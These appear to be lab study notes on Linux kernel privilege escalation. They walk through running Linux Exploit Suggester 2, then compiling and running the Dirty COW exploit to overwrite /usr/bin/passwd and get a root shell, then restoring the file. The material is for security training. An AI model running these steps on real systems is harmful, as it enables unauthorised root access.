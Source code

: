 ## Kernel Exploits
​
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.
​
Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:
​

>[!Tip] Chebra
>```
>perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
>```

​
The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).
​
Compile the code and run it (note that it may take several minutes to complete):
​

>[!Tip] Chebra
>```
>gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
>```
>```
>./c0w
>```

​
Once the exploit completes, run /usr/bin/passwd to gain a root shell:
​

>[!Tip] Chebra
>```
>/usr/bin/passwd
>```

​
Optional if you want to reverse your intrussion: Remember to restore the original **/usr/bin/passwd** file and exit the root shell.
​

>[!Tip] Chebra
>```
>mv /tmp/bak /usr/bin/passwd
>```
>```
>exit
>```